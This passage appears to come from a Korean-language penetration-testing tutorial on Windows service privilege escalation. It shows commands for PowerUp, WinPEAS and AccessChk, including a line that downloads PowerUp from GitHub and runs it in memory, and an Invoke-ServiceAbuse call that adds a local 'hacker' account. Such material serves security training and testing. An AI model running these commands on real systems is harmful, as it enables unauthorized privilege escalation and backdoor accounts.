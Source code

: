 ```cmd
:: 6. 서비스 재시작
sc stop VulnerableService
sc start VulnerableService
```

## 🤖 자동화 도구 활용

### 🔍 PowerUp 서비스 스캔

```powershell
# PowerUp 다운로드 및 실행
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')

# 모든 서비스 취약점 검사
Invoke-AllChecks

# 개별 서비스 검사
Get-UnquotedService
Get-ModifiableService
Get-ModifiableServiceFile
Get-ServiceUnquoted

# 서비스 익스플로잇 실행
Invoke-ServiceAbuse -ServiceName VulnerableService -Command "net user hacker password123 /add"
```

### 🎯 WinPEAS 서비스 분석

```cmd
:: WinPEAS 서비스 관련 정보만 추출
winPEAS.exe servicesinfo

:: 결과에서 서비스 취약점만 필터링
winPEAS.exe | findstr /i "Unquoted\|Modifiable\|WritePermissions"
```

### 🔧 AccessChk 서비스 권한 분석

```cmd
:: accesschk 다운로드 (Sysinternals)
:: https://download.sysinternals.com/files/AccessChk.zip

:: 현재 사용자의 서비스 권한 확인
accesschk.exe -uwcqv %USERNAME% * 2>nul | findstr "RW\|SERVICE_ALL_ACCESS\|SERVICE_CHANGE_CONFIG"

:: Everyone 그룹의 서비스 권한
accesschk.exe -uwcqv "Everyone" * 2>nul

:: Authenticated Users 그룹의 서비스 권한
accesschk.exe -uwcqv "Authenticated Users" * 2>nul

:: 특정 서비스 상세 권한
accesschk.exe -cv ServiceName
```
